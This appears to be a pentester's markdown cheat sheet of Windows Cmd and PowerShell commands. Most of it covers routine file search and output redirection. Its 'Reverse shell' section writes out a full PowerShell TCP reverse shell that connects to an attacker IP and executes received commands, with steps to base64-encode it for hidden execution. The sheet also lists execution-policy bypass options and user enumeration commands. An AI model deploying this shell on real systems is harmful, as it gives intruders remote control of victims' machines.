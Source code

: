 # Regular Cmd and Powershell commands

## Cmd

### Environment variables

```
cd %userprofile%
```

### Find and search files

Find:
```
dir /s *.txt
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
```
and search:
```
find "some string" somefile.txt
find """string in double quotes""" anotherfile.txt
find /i "case insensitive" file.txt
find /?
```
Count lines:
```
find /c /v "" file.txt
```

RegExp: 
- https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
- https://www.windows-commandline.com/findstr-command-examples-regular/
```
findstr pattern filename.txt
```

### Enumeration

```
net user
net localgroup
```

---

## Powershell

About `powershell.exe`: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1

### Options

Regular options:
- NoLogo
- NoProfile: no custom configuration
- NonInteractive
- ExecutionPolicy: bypass
- EncodedCommand: same as `-enc`
- WindowStyle: `-w hidden`

### Environment variables

```
cd "env:userprofile\desktop"
```

### Write output to a file

Source: https://stackoverflow.com/questions/1215260/how-to-redirect-the-output-of-a-powershell-to-a-file-during-its-execution
```
PS> .\myscript.ps1 | Out-File c:\myoutput.txt
PS> Write "Stuff to write" | Out-File Outputfile.txt -Append
```

### Find files

```
Get-ChildItem -Recurse -Include *.txt -File -ErrorAction SilentlyContinue -Path 'C:\path\to\dir' 
```

### Change the execution policy

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Reverse shell

In a Powershell prompt, build the base64 string:
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("$AttackerIp",$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)
```
Usage: `powershell -enc base64_encoded_long_string`

Build the base64 string in Linux:
- https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py
- https://github.com/ThomasBucaioni/pentools/blob/main/microsoft/powershell_powercat_encoding.py

References:
- https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/3ad91872713d60888dca95850c3f6e706231cb40/powershell_reverse_shell.ps1
- https://github.com/darkoperator/powershell_scripts/tree/master

### Enumeration

```
Get-LocalUser
```
